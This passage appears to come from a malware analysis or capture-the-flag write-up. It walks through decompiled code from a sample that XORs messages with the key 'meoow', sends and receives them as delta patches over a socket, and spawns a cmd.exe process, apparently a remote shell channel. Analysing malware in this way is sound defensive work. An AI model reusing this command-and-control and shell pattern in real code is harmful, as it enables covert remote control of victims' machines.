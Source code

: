     
      if (msglen != 0) {
        do {
          *(byte *)((int)msg + i) = *(byte *)((int)msg + i) ^ "meoow"[i % 5];
          i = i + 1;
        } while (i < msglen);
      }
    

It creates space on the heap and calls a function I called `make_delta`:

    
    
      memcpy(_Dst,delta_base,_Size);
      memcpy(_Dst,msg,msglen);
      me0w_body = make_delta(delta_base,_Size,_Dst,_Size,&local_14)
    

Later that delta is sent:

    
    
        while ((me0w_body != 0 &&
               (bytes_read = send(socket,(int)lpMem + j,me0w_body,0), uVar2 = extraout_DL_02,
               bytes_read != -1))) {
          j = j + bytes_read;
          me0w_body = me0w_body - bytes_read;
        }
    

This fits with the messages in the PCAP being more delta patches.

### recv

The same pattern happens in reverse on the `recv` side. It’s in
`FUN_1000128a`, which I named `msg_recv`. It does a loop to receive bytes
until the connection is done, then applies the delta patch:

    
    
    bytes_recv = delta_is_applied(data_buffer,length,&result);
    

Later that data is passed through the same XOR:

    
    
          if (uStack16 != 0) {
            do {
              imod5 = i % 5;
              *(byte *)((int)*msg + i) = *(byte *)((int)*msg + i) ^ "meoow"[imod5];
              i = i + 1;
            } while (i < *result_len);
          }
    

Looking up one function at what calls this `msg_send` function, `FUN_100015d4`
(renamed to `le_main`), is called from `le_meow` and calls both `msg_send` and
`msg_recv`. It also creates a `cmd.exe` process:

    
    
        res = CreateProcessA((LPCSTR)0x0,"C:\\wiNdOwS\\sYstEm32\\cMd.ExE",(LPSECURITY_ATTRIBUTES)0x0,
                             (LPSECURITY_ATTRIBUTES)0x0,1,0,(LPVOID)0x0,(LPCSTR)0x0,
                             (LPSTARTUPINFOA)&auStack65684,(LPPROCESS_INFORMATION)&_Stack65596);
    